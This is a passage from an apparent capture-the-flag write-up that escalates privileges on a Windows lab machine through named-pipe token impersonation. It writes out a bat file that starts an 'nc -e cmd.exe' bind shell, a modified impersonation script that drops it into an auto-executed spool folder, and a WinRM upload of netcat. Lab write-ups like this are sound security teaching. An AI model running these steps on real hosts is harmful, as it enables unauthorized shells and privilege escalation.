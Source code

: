

This output tells me a couple things:

-   I was able to impersonate HACKBACK\\hacker and run commands as that
    user.
-   I was not able to start a new process with the token belonging to
    that user. The error code,
    [1058](https://docs.microsoft.com/en-us/windows/desktop/Debug/system-error-codes--1000-1299-),
    is ERROR_SERVICE_DISABLED. `CreateProcessWithTokenW` [relies on the
    Secondary Logon
    service](https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.md),
    which isn't enabled on this host.

#### Strategy

So I can run commands as hacker, but I can't create a new process, at
least not with the `CreateProcessWithTokenW` API call. I also can't
connect out to my box because of the firewall rules. But I do have a
directory, `spool`, that is running all bat files in it, that I
currently can't write to. So if I can write a bat file to the directory,
it will be run. I can use that bat file to create a `nc` listener, and
then, once it's run, proxy a connection to it to get a shell as hacker.
Alternatively, I could do load some shellcode and run it reflectively,
but this path seems simpler to me.

#### Execution

I'll write a simple bat file to open a `nc` listener:



    root@kali# cat df.bat
    c:\windows\system32\spool\drivers\color\nc.exe -e cmd.exe -lvp 4444



I'll create a copy of `pipeserverimpersonate.ps1`, `pipe.ps1`, and add a
line where I can run code as hacker to copy my bat file into the spool
directory:



    ...[snip]...
    ### we are impersonating the user, everything we do before RevertoSelf is done on behalf that user
    echo "user=$user "
    copy \windows\system32\spool\drivers\color\df.bat \util\scripts\spool\0xdf.bat
    ...[snip]...



I'll use the WinRm upload to bring `nc64.exe`, `df.bat`, and `pipe.ps1`
to target:



    PS hackback\simple@HACKBACK scripts> UPLOAD nc64.exe \windows\system32\spool\drivers\color\nc.exe
    Uploading nc64.exe to \windows\system32\spool\drivers\color\nc.exe26892 bytes of 60360 bytes copied
    53784 bytes of 60360 bytes copied
    60360 bytes of 60360 bytes copied
    OK
